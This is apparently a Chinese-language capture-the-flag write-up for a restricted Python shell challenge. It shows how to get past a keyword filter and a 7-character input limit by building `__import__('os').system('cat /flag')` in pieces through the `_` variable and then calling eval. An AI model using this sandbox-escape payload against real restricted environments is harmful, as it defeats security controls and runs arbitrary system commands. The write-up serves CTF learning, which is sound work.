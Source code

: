 # 题目描述

flag在/flag，每个容器只支持同时连接一个客户端。部分指令可能导致容器无响应，如果出现这样的情况请重启题目环境

# 解题思路

下发题目，得到一个nc连接的地址，用nc命令连接

![image-20240221135952641](./img/pyshell/image-20240221135952641.png)

可以看到是一个类似的shell窗口，查询得知这是CTF中的伪python shell题目；

> 伪Python shell是指一种CTF（Capture The Flag）中的题目类型，它要求我们在一个受限制的Python环境中执行代码，从而获取flag。伪Python shell的特点和作用是考察我们对Python语言的熟悉程度和逆向能力，以及如何利用Python的一些特性来绕过沙箱限制。解决这样的CTF题目的方法有很多，具体取决于题目的限制条件和漏洞点，一般需要利用字符串拼接、类静态方法、反序列化、系统命令等技巧来构造有效的payload。
>



输入一些命令发现全是输出nop，根据题目描述，flag在' /flag '中，所以我们的思路是思路是通过输入python代码执行shell命令但是题目过滤了这些命令（如import print等）。并且一次发现只能输入7个字符（包括`''`）

![image-20240221141236205](./img/pyshell/image-20240221141236205.png)

所以我们换一个查询思路：`__import__('os').system('cat /flag')`

并且因为题目限制了每次输入的字符数，所以我们需要通过`_+`来连接每次输入的代码：

```python
'__imp'
_+'ort'
_+'__('
_+"'os"
_+"')."
_+"sys"
_+"tem"
_+"('c"
_+"at "
_+"/fl"
_+"ag'"
_+")"
eval(_)
```

> '_'+ 表示在下一个字符串拼接操作之前对字符串进行了临时的拼接操作。例如，代码中的 `_+'ort'` 实际上是 `_ + 'ort'`，表示将上一个字符串 `_` 与 `'ort'` 进行拼接。这种形式的字符串拼接操作用于在代码中以一种连贯的方式构建出整个字符串。

得到flag：flag{80f772f1-6740-4571-87ba-cf6b3db34581}

![image-20240221141724401](./img/pyshell/image-20240221141724401.png)

